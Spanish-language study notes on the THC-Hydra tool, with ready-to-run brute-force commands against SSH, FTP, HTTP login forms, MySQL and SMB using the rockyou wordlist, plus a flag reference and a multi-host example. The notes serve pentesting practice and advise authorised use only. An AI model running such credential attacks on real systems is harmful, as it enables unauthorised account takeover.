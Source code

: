 
---
Hydra (THC-Hydra) es un _parallelized network logon cracker_: una herramienta rápida y flexible para probar credenciales contra muchos protocolos (SSH, FTP, HTTP-FORM, RDP, SMB, SMTP, etc.). Se usa en tests de penetración y auditorías de contraseñas — **siempre** usar con autorización y para fines legales/éticos. [Kali Linux+1](https://www.kali.org/tools/hydra/)

###### Generalmente para usar hydra necesitamos al menos saber un usuario o una contraseña para realizar los ataques de fuerza bruta, al menos uno de los dos para que sea eficaz el ataque


```bash
# Se usa mayuscula si no conozco el dato como -L , -P y minuscula si lo conzco -l , -p

hydra -l juan -P /usr/share/wordlist/rockyou.txt ssh://<IpVictima>   # Ataque a ssh, Fuerza burta a contraseña
hydra -L /usr/share/wordlist/metaesploit/unix_users.txt -p qwerty ftp://<IpVictima> # Ataque a ftp, Fuerza Bruta Usuario
```

[[Rockyou - Contraseñas]] -> Diccionario de Contraseñas
[[Unix_users  - Usuarios]] -> Diccionario de Usuarios

---
#### Para hacer fuerza bruta hacia paneles Login

```bash
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.60 http-post-form "/my_weblog/admin.php:username=admin&password=^PASS^:Incorrect username or password."
```
```bash
/my_weblog/admin.php # Indica la ruta donde se aloja la peticion la cual puede ser encontrada con burpsuite 
username=admin&password=^PASS^ # Indica las variables que se tienen y las que quieres aplicar fuerza bruta 
Incorrect username or password. # El mensaje de error que aparece una vez se trate de realizar fuerza bruta al panel de login
```

---
#### Fuerza bruta hacia bases de datos MySql

- Las bases de datos sql normalmente corren por el puerto 3306, si vemos uno de de estos abierto con nmap podemos intentar la fuerza bruta de contraseñas

```bash
hydra -l capybara -P /usr/share/wordlist/rockyou.txt mysql://172.17.0.2 # 
```

---
#### Fuerza bruta protocolo smb
- Podemos también ver el recurso de [[p445 - SMB - Server Message Block]]

```bash
hydra -l <Usuario> -P /usr/share/wordlist/rockyou.txt smb://192.168.1.22 # Fuerza bruta al protocolo smb
```
---
### Comandos Comunes 

# Instalación rápida

En distribuciones Debian/Ubuntu/Kali:

`sudo apt update sudo apt install hydra`

(En Kali está empaquetado y documentado; versión y dependencias en la página de la distro). [Kali Linux](https://www.kali.org/tools/hydra/)

# Sintaxis básica

`hydra [opciones] [servicio://]target[:puerto][/OPCIONES_SERVICIO]`

Ejemplo simple (SSH):

`hydra -l root -P /ruta/wordlist.txt -t 6 ssh://192.168.1.123`

Esto intenta loguear como `root` usando la lista `wordlist.txt` con 6 hilos contra el servicio SSH del host. [Kali Linux](https://www.kali.org/tools/hydra/)

# Flags / comandos más comunes (y qué hacen)

- `-l LOGIN` → probar un único usuario.
    
- `-L archivo` → probar múltiples usuarios desde archivo.
    
- `-p PASS` → probar una única contraseña.
    
- `-P archivo` → probar múltiples contraseñas desde archivo (wordlist).
    
- `-t N` → número de conexiones paralelas por objetivo (threads).
    
- `-T N` → conexiones paralelas globales (cuando se usan muchos hosts con `-M`).
    
- `-s PUERTO` → especificar puerto si no es el por defecto.
    
- `-S` → forzar SSL/TLS (ej. `https` o servicios SSL).
    
- `-x MIN:MAX:CHARSET` → generar contraseñas por fuerza bruta (autogeneradas).
    
- `-e nsr` → probar opciones extra: `n` (null), `s` (login como pass), `r` (login invertido).
    
- `-f` / `-F` → salir cuando se encuentre una credencial (`-F` global).
    
- `-o archivo` → escribir credenciales encontradas a archivo; `-b FORMAT` para formato (text/json).
    
- `-R` → restaurar sesión anterior.
    
- `-v` / `-V` → modo verbose (ver intentos).
    
- `-U` → mostrar ayuda específica del módulo/servicio.  
    (Estos flags y sus descripciones aparecen en la ayuda oficial). [Kali Linux](https://www.kali.org/tools/hydra/)
    

# Ejemplos prácticos

1. **SSH (usuario known, lista de contraseñas)**
    

`hydra -l administrador -P /usr/share/wordlists/rockyou.txt -t 8 ssh://10.0.0.5`

2. **FTP (lista de usuarios y lista de contraseñas)**
    

`hydra -L users.txt -P passlist.txt -t 10 ftp://ftp.example.com`

3. **HTTP (formulario POST)** — sintaxis típica para formularios (ejemplo genérico):
    

`hydra -L users.txt -P passlist.txt example.com http-form-post "/login.php:username=^USER^&password=^PASS^:F=Invalid"`

Aquí `^USER^` y `^PASS^` son reemplazados por hydra; la parte después de `:` indica la cadena que marca fallo (`F=Invalid`). Revisar el módulo `http-form-post` para ajustar campos y respuestas. [Kali Linux+1](https://www.kali.org/tools/hydra/)

4. **Usando múltiples hosts (-M)**  
    Preparar un archivo `hosts.txt` con una IP/host por línea y ejecutar:
    

`hydra -L users.txt -P passlist.txt -M hosts.txt -t 4 ftp`